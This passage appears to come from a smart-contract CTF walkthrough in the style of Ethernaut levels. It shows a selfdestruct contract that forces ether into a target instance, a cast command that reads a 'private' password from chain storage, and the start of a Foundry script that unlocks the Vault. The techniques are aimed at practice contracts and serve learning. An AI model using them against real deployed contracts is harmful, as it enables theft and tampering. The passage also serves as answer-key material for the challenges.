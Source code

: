 ```foundry
        new Intermediatary{value : 1 wei }(payable(0xAc5932516eef108D74f97b485331F1bCc4D83Be6)); //instance address
    }
}

contract Intermediatary{
    constructor(address payable _forceAddress) payable{
        selfdestruct(_forceAddress);
    }
}
```
---

# #Vault

**Challenge :** I should unlock the vault to pass the level i.e., I should make `locked` variable false.

**Contract**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
That private variable `password` is actually not private or secret , in blockchain world everything is on chain and anyone can see it . 

So I just need to read that password and call the unlock with that password .

**Reading the variables** using cast in foundry
```terminal
cast storage /*paste instance address*/ 1 --rpc-url $SEPOLIA_RPC_URL 
```
Run this in the terminal , this will print the password , copy it .

**Here's the Foundry script that solves the challenge**
```foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script } from "forge-std/Script.sol";
import "forge-std/console.sol";
import {Vault} from "../src/Vault.sol";

contract VaultSolution is Script {
    Vault vaultInstance = Vault(0x697f2E42d0fa862F27Dd3Fbc7741d08611123081); //instance address

    function run() external {
        console.log(vaultInstance.locked());
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
```
